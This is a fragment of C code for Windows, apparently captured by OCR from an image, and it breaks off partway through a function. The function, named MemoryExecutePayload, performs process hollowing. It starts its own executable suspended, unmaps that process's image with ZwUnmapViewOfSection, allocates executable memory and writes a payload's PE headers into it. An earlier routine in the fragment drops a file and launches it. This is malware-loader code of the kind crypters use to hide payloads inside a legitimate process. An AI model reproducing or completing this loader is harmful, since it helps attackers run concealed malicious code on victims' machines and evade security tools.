 ```
    CloseHandle(hFile);
    ShellExecute(NULL, NULL, szFileName, NULL, NULL, SW_NORMAL);
`}`
BOOL MemoryExecutePayload(FileStruct *fs) `{`
    // PE headers
    PIMAGE_DOS_HEADER pidh;
    PIMAGE_NT_HEADERS pinh;
    PIMAGE_SECTION_HEADER pish;
    // process info
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    // pointer to virtually allocated memory
    LPVOID lpAddress = NULL;
    // context of suspended thread for setting address of entry point
    CONTEXT context;
    // need function pointer for ZwUnmapViewOfSection from ntdll.dll
    PZUVOS pZwUnmapViewOfSection = NULL;
    // get file name
    CHAR szFileName[MAX_PATH];
    GetModuleFileName(NULL, szFileName, MAX_PATH);
    // first extract header info
    // check if valid DOS header
    pidh = (PIMAGE_DOS_HEADER)fs-&gt;pBuffer;
    if (pidh-&gt;e_magic != IMAGE_DOS_SIGNATURE) `{`
        Debug("DOS signature error");
        return FALSE;
    `}`
    // check if valid pe file
    pinh = (PIMAGE_NT_HEADERS)((DWORD)fs-&gt;pBuffer + pidh-&gt;e_lfanew);
    if (pinh-&gt;Signature != IMAGE_NT_SIGNATURE) `{`
        Debug("PE signature error");
        return FALSE;
    `}`
    // first create process as suspended
    memset(&amp;si, 0, sizeof(si));
    memset(&amp;pi, 0, sizeof(pi));
    si.cb = sizeof(si);
    if (CreateProcess(szFileName, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &amp;si, &amp;pi) == FALSE) `{`
        Debug("Create process error %lun", GetLastError());
        return FALSE;
    `}`
    context.ContextFlags = CONTEXT_FULL;
    if (GetThreadContext(pi.hThread, &amp;context) == FALSE) `{`
        Debug("Get thread context");
    `}`
    // unmap memory space for our process
    pZwUnmapViewOfSection = (PZUVOS)GetProcAddress(GetModuleHandle("ntdll.dll"), "ZwUnmapViewOfSection");
    pZwUnmapViewOfSection(pi.hProcess, (PVOID)pinh-&gt;OptionalHeader.ImageBase);
    // allocate virtual space for process
    lpAddress = VirtualAllocEx(pi.hProcess, (PVOID)pinh-&gt;OptionalHeader.ImageBase, pinh-&gt;OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (lpAddress == NULL) `{`
        Debug("Virtual alloc error: %lun", GetLastError());
        return FALSE;
    `}`
    // write headers into memory
    if (WriteProcessMemory(pi.hProcess, (PVOID)pinh-&gt;OptionalHeader.ImageBase, fs-&gt;pBuffer, pinh-&gt;OptionalHeader.SizeOfHeaders, NULL) == FALSE) `{`
        Debug ("Write headers error: %lun", GetLastError());
        return FALSE;
    `}`
```